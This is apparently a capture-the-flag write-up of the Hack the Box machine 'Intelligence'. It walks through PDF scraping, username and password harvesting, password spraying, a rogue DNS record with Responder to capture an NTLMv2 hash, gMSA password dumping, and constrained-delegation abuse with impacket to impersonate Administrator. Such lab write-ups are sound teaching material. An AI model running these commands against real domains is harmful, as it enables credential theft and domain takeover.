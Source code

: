 ```yaml
---
layout: post
title:  "Hack the Box - Intelligence"
category: "Writeups"
---
```


## Enumeration
# NMAP

- I won't be providing the output due to it being so large for the page but running a basic scan shows us we are dealing with a Domain Controller along with a web page (interesting...)

# Web Page
- We can see two pdfs available but maybe there are more available but on the web page?
- Python script to download within the year 2020
- Note: I believe when I went through this, I referenced 0xdf's blog and got input from his script

```python3
#!/usr/bin/env python3

import requests
import argparse
import datetime

def main():
    parser = argparse.ArgumentParser(description="Script to download PDFs from website/Intelligence on HTB")
    parser.add_argument('-url', required=True, help='URL for webpage')
    options = parser.parse_args()


    # Testing how to download a file :D
    # url = 'http://intelligence.htb/documents/2020-01-01-upload.pdf'
    # r = requests.get(url)
    # with open("2020-01-01-upload.pdf", 'wb') as f:
    #     f.write(r.content)
    
    # Adding zeros in front of int, for 01, 02, 03 ... 09
    # This matches the PDF format
    # num = "1"
    # print(num.zfill(2))
    downloadFiles(options.url)


def downloadFiles(url):
    start_date = datetime.datetime(2020, 1, 1)
    end_date = datetime.datetime(2020, 12, 31)

    while True:
        u = start_date.strftime(url + "/documents/%Y-%m-%d-upload.pdf")
        r = requests.get(u)
        if r.status_code == 200:
            print(f"[*] URL: {u}")
            with open(u.replace("http://intelligence.htb/documents/", ""), "wb") as f:
                print(f"[*] Getting pdf: {u}...")
                f.write(r.content)

        start_date = start_date + datetime.timedelta(days=1)
        if start_date >= end_date:
            break



main()
```

## Observing PDFs
- We can get usernames from them based on the creator section from exiftool

```bash
exiftool * | grep "Creator" | awk '{print $3}' | sort -u > ../users.lst
```

```text
Anita.Roberts
Brian.Baker
Brian.Morris
Daniel.Shelton
Danny.Matthews
Darryl.Harris
David.Mcbride
David.Reed
David.Wilson
Ian.Duncan
Jason.Patterson
Jason.Wright
Jennifer.Thomas
Jessica.Moody
John.Coleman
Jose.Williams
Kaitlyn.Zimmerman
Kelly.Long
Nicole.Brock
Richard.Williams
Samuel.Richardson
Scott.Scott
Stephanie.Young
Teresa.Williamson
Thomas.Hall
Thomas.Valenzuela
Tiffany.Molina
Travis.Evans
Veronica.Patel
William.Lee
```
- Lets check the contents of the pdfs and maybe there is something

- We can use "pdfgrep" to search through for keywords, like password
```bash
pdfgrep "password" *
```
- Shows us "2020-06-04" contains the word we are searching for!
- Default password of "NewIntelligenceCorpUser9876" we can use to password spray
- We get a hit with Tiffany Molina!
- ![[TMolinda-PassSpray.png]](/images/HTB/Intelligence/TMolinda-PassSpray.png)

## Tiffany Molina
# SMB Enum
- We can read IPC$, IT, NETLOGON, SYSVOL, Users
- IT would be most interesting

# IT Share
- PowerShell Script

```powershell
# Check web server status. Scheduled to run every 5min
Import-Module ActiveDirectory 
foreach($record in Get-ChildItem "AD:DC=intelligence.htb,CN=MicrosoftDNS,DC=DomainDnsZones,DC=intelligence,DC=htb" | Where-Object Name -like "web*")  {
try {
$request = Invoke-WebRequest -Uri "http://$($record.Name)" -UseDefaultCredentials
if(.StatusCode -ne 200) {
Send-MailMessage -From 'Ted Graves <Ted.Graves@intelligence.htb>' -To 'Ted Graves <Ted.Graves@intelligence.htb>' -Subject "Host: $($record.Name) is down"
}
} catch {}
}
```
- What this script is doing is finding any domain that starts with "web" within the intelligence domain then using the credentials of Ted Graves, it sends out an email
- But what if it connects to a domain we create and sends the creds of Ted?

- [Check out this tool for creating a dns record](https://github.com/dirkjanm/krbrelayx)


```bash
sudo python3 /home/turco/hacking-tools/krbrelayx/dnstool.py -u 'intelligence.htb\Tiffany.Molina' -p 'NewIntelligenceCorpUser9876' -r webturco.intelligence.htb -a add -t A -d 10.10.14.5 10.10.10.248
```
- Confirm with nslookup:

![[webturco-confirm.png]](/images/HTB/Intelligence/webturco-confirm.png)
- The domain "webturco.intelligence.htb" points back to my tun0 address
- Start up responder and wait for a connection from Ted Graves (script runs every 5 min)


# Cracking hash

- We get Ted's hash and its an NTLMv2 so we need to crack with hashcat/john
- Responder: (edit /etc/responder/Responder.conf and turn on HTTP server)
- ![[teddy-responder.png]](/images/HTB/Intelligence/teddy-responder.png)
- Hashcat NTLMv2 value = 5600 

```
Ted.Graves : Mr.Teddy
```

## Ted Graves Enumeration
# Bloodhound
- Analyzing Ted.Graves in bloodhound shows he is part of the ITSuport group which can "ReadGMSAPassword" on svc_int under "Group Delegated Object Control"
- [Tool I used](https://github.com/micahvandeusen/gMSADumper)
- ![[ted-readgmsa-BH.png]](/images/HTB/Intelligence/ted-readgmsa-BH.png)
- ![[readgmsaDumper.png]](/images/HTB/Intelligence/readgmsaDumper.png)

```
svc_int$ : 6bf735e60852b92212d512a4deadcfea
```

- But analyzing more from svc_int, we see its allowed to delegate to the DC
- ![[AllowedToDelegateBH.png]](/images/HTB/Intelligence/AllowedToDelegateBH.png)
- AllowedToDelegate: WWW/dc.intelligence.htb (SPN)

# Abusing AllowedToDelegate
- We can impersonate the Administrator by generating a service ticket using that SPN
```bash
impacket-getST -spn WWW/dc.intelligence.htb -impersonate Administrator intelligence.htb/svc_int$ -hashes <NTLM>
```


- Generating this service ticket will allow us to impersonate the Administrator on DC
- [Artcile about unconstrained delegation](https://stealthbits.com/blog/constrained-delegation-abuse-abusing-constrained-delegation-to-achieve-elevated-access/)
- Proof of admin:
![[whoami-Admin.png]](/images/HTB/Intelligence/whoami-Admin.png)